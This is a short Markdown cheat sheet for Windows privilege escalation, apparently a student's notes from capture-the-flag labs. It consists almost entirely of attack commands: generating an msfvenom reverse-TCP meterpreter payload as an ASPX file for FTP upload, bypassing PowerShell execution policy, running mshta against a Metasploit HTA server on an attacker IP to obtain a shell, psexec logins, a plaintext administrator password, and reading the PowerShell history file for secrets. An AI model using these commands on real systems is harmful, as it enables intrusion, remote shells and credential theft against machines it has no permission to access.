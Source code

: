 
# Windows Privilege Escalation

- Windows Privilege Escalation
    
    ```bash
    
    https://github.com/itm4n/PrivescCheck
    
    Metasploit for search vulnerabilities 
    run 
    
    FTP vulnerable aspx 
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.53 LPORT=4545 -f aspx > devel.aspx
    put devel.aspx
    
    powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
    runas.exe /user:administrator cmd
    hello_123321
    whoami
    
    Metasploit
    msfconsole -q
    use exploit/windows/misc/hta_server
    exploit
    
    mshta.exe http://10.10.15.2:8080/jxEyD3w.hta
    sessions -i 1
    cd C:\\Users\\Administrator\\Desktop
    dir
    cat flag.txt
    
    psexec.py Administrator@10.4.21.189 
    Password
    
    ```
    

# Env

- Variaveis de ambiente com evil-winrm
    
    ```bash
    type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    ```
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2010.png)
    